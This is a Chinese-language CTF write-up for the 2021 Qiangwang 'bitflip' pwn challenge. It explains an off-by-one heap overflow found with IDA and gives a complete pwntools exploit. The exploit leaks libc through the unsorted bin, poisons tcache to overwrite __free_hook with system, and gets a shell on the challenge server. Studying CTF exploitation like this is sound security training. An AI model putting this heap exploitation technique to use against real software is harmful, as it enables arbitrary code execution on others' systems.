 # 第四届“强网”拟态防御国际精英挑战赛 2021 pwn **bitflip**

> challenge name: `bitflip`
>
> file: `old_school`, libc-2.27.so
>
> ld.so and .i64 with comments provided
>
> writeup writer: hexhex16@outlook.com    https://github.com/hex-16
>

是`old_school`的进阶版，也是在edit操作中存在Off-By-One漏洞，create时要求size最大为0x50，这个大小在tcache被填满之后，会进入到fastbin而不会进入到unsorted bin。所以要用Off-By-One改大size域，使得chunk可以进入unsorted bin，其余过程则与`old_school`类似，即拿到一个chunk，这个chunk是可以控制一个在tcache中的chunk的fw域的。最后做tcache poisoning

注意事项：改size时，要注意size大小可能导致unsorted bin有关的安全检查过不了

内存布局+思路：

```python
c1(0x40)
c2(0x40) # 利用c1把c2的size改大(0xa1)，设法把c2放入unsortedbin里
c3(0x30) # 放到tcache(0x30)里，要为第一个chunk，即要最后free # tcache(0x30) cnt=2: c3->c4
c4(0x30) # 陪着c3进tcache(0x30)，只是为了增大tcache(0x30)的cnt为2
# 两个两个malloc，malloc 7 对 chunk(14个)，用前一个chunk改大下一个chunk的size为0xa1
# 把size改为0xa1的chunk释放，填满tcache(0xa0)
# 释放c2，c2进入unsorted bin: 0xa0
# malloc(0x40) 把c2 拿回来，unsorted bin中还有一个 0x60 的chunk
# malloc(0x30) 再从unsorted bin拿一个0x30的chunk，其实这个就是c3了，然后就可以编辑c3的fw
```

一句话概括：把一个chunk的size改大，释放到unsorted bin的时候把一个在tcache中的chunk给“顺”进unsorted bin了，然后就可以拿回来任意编辑。

> 注意这里的描述与exp中的有些许出入，exp中有的chunk是无用的，做了一些没有必要的操作。

# IDA Analysis

- create: idx<= 0x1f; size<=0x50。这个size在tcache填满时，放入fastbin
- edit: size为0x28, 0x38, ...时，可以覆盖下一chunk的size的最低1B为任意数字，即存在Off-By-One

```cpp
unsigned __int64 edit()
{
  unsigned __int64 idx_ori; // rbx
  __int64 size_ori; // rbp
  _BYTE *ptr; // rbx
  __int64 size_plus1; // rbp
  _BYTE *end_addr; // rbp
  unsigned __int64 temp; // [rsp+0h] [rbp-28h] BYREF
  unsigned __int64 v7; // [rsp+8h] [rbp-20h]

  v7 = __readfsqword(0x28u);
  __printf_chk(1LL, "Index: ");
  __isoc99_scanf(&ald, &temp);
  idx_ori = temp;
  if ( temp <= 0x1F )
  {
    if ( arrPtr[temp] )
    {
      __printf_chk(1LL, "Content: ");
      size_ori = arrSize[idx_ori];
      ptr = (_BYTE *)arrPtr[idx_ori];
      size_plus1 = size_ori + 1;
      if ( size_plus1 )
      {
        end_addr = &ptr[size_plus1];
        do
        {
          read(0, ptr, 1uLL);   // 可以编辑ptr[size]所在的byte 即多写1B任意字符，Off-By-One
          if ( *ptr == '\n' )
            break;
          ++ptr;
        }
        while ( ptr != end_addr ); // ptr[size+1]
      }
    }
  }
  return __readfsqword(0x28u) ^ v7;
}
```



# exp

c0是没用的，debug时遗留的罢了。c5是不必的，因为后面只从tcache(0x30)中malloc了两次。

```python
from pwn import *
context.arch = 'amd64'
context.log_level = "debug"
IP = "124.71.130.185"
PORT = 49154
DEBUG = 1


if DEBUG:
    p = process(["./ld.so", "./bitflip"], env={"LD_PRELOAD": "./libc-2.27.so"})
    libc = ELF("./libc-2.27.so")
    # attention: argv[1] for ./pwn when running with ./ld.so ./pwn
    base = p.libs()[p._cwd + p.argv[1].decode().strip('.')]  # fix bytes str error in py3.9
    print("base:", base, p.libs())

else:  # flag{2296341872d87bd532c121d14d55c4ac}
    p = remote(IP, PORT)
    libc = ELF("./libc-2.27.so")


def ru(x): return p.recvuntil(x)
def se(x): return p.send(x)
def rl(): return p.recvline()
def sl(x): return p.sendline(x)
def rv(x): return p.recv(x)
def sa(a, b): return p.sendafter(a, b)
def sla(a, b): return p.sendlineafter(a, b)
def l64(): return u64(p.recvuntil("\x7f")[-6:].ljust(8, b"\x00"))  # python 3.9 pass


def debug(cmd=""):
    gdb.attach(p, cmd)


def dd():
    if DEBUG:
        cmd = ""
        # cmd += "b *%d\n" % (base + 0xC0E)  #
        cmd += "set $a=%d\n" % (base + 0x202160)  # arrPtr
        debug(cmd)


def create(idx, size):
    sla("Your choice: ", str(1))
    sla("Index: ", str(idx))  # max: 0x1F # 0~32
    sla("Size: ", str(size))  # max: 0x50
    ru("Done!")


def edit(idx, content):
    sla("Your choice: ", str(2))
    sla("Index: ", str(idx))
    sa("Content: ", content)


def show(idx):
    sla("Your choice: ", str(3))
    sla("Index: ", str(idx))
    ru("Content: ")
    return ru("\n1. BF create")[:-13]


def remove(idx):
    sla("Your choice: ", str(4))
    sla("Index: ", str(idx))


# === Step-1: prepare a chunk(0xa0), tcache(0x30) cnt=3
create(0, 0x38)
edit(0, "chunk0".ljust(0x47, '0') + '\n')
create(1, 0x38)
create(2, 0x38)  # c2 size=0x40
edit(1, "to_unsorted_bin".ljust(0x38, 'a') + chr(0xa1))  # Off-By-One # c2 size=0xa0
# prepare tcache(0x30) for tcache poisoning in last step
# c3将被放到tcache(0x30)的头部，同时被c2“顺”进unsorted_bins
create(3, 0x28)  # c3 0x30 # covered by c2 
create(4, 0x28)  # c4 0x30 # covered by c2
create(5, 0x28)  # c5 0x30 # NOT covered by c2
remove(5)
remove(4)
remove(3)  # tcache(0x30)cnt3: c3, c4, c5

# === Step-2: full tcache(0xa0), a chunk to unsorted bin
for i in range(6, 19, 2):  # tcache(0x40)
    print("i=", i)
    create(i, 0x38)      # 6, 8, 10, 12, 14, 16, 18
    create(i + 1, 0x38)  # 7, 9, 11...
    edit(i, "toEditNextChunk".ljust(0x38, '0') + chr(0xa1))

for i in range(19, 6, -2):
    print("free i=", i)  # 19, 17, ... 7
    remove(i)  # full tcache(0xa0)
remove(2)  # c2 to unsorted bin
# tcache(0xa0)cnt=7: c7, c9, .. c19 # unsorted_bin cnt=1: 0xa0

# === Step-3: get chunk(size=0x40) from unsorted bin, 0x60 left; leak libc addr
create(2, 0x38)
data = show(2)
print("data:", data, data.hex())
temp = u64(data.ljust(8, b"\x00"))
libc.address = temp - 0x7f7669cc7d30 + 0x00007f76698dc000
print("libc.address:", libc.address, hex(libc.address), hex(temp))
dd()

# tcache(0xa0)cnt=7 # tcache(0x40)cnt=3: c3, c4, c5 # unsorted_bins 0x60
# === Step-4: get chunk(0x50) from unsorted bin, also c3
create(22, 0x48)  # unsorted_bins cnt=1: 0x20
edit(22, p64(libc.symbols["__free_hook"]) + b'\n')  # cover c3 fw with &__free_hook
create(23, 0x28)  # get c3 from tcache(0x30) # tcache(0x30)cnt=2: &__free_hook
create(24, 0x28)  # get &__free_hook
edit(24, p64(libc.symbols["system"]) + b'\n')  # cover __free_hook with system
edit(23, "/bin/sh\x00\n")
remove(23)  # system("/bin/sh\x00\n")


p.interactive()

```

